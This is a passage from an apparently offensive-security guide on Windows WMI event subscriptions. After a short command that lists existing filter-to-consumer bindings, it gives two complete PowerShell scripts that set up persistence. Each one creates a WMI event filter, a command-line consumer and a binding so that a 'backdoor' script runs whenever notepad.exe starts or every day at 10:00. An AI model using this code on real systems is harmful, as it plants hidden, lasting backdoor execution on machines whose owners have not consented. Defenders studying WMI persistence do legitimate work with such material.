 #### View Filter to Consumer Bindings
The FilterToConsumerBinding links the event filter with its associated consumer.
```powershell
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
```

## Creating a WMI Event Subscription for Persistence

You can create a persistent WMI event subscription that triggers an action based on system events like process creation, file creation, or user logon. 

#### Persist via Process Monitoring
This example creates a WMI subscription that runs a PowerShell script when a specific process (`notepad.exe`) starts.
```powershell
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "ProcessFilter"; 
    QueryLanguage = "WQL"; 
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "ProcessConsumer"; 
    CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Backdoor\backdoor.ps1"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter; 
    Consumer = $consumer
}
```

#### Persist via Time-Based Events
This creates a WMI event subscription that triggers daily at 10:00 AM by using the `Win32_LocalTime` class.
```powershell
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "TimeFilter"; 
    QueryLanguage = "WQL"; 
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 10 AND TargetInstance.Minute = 0"
}

$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "TimeConsumer"; 
    CommandLineTemplate = "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Backdoor\daily_backdoor.ps1"
}

Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter; 
    Consumer = $consumer
}
```
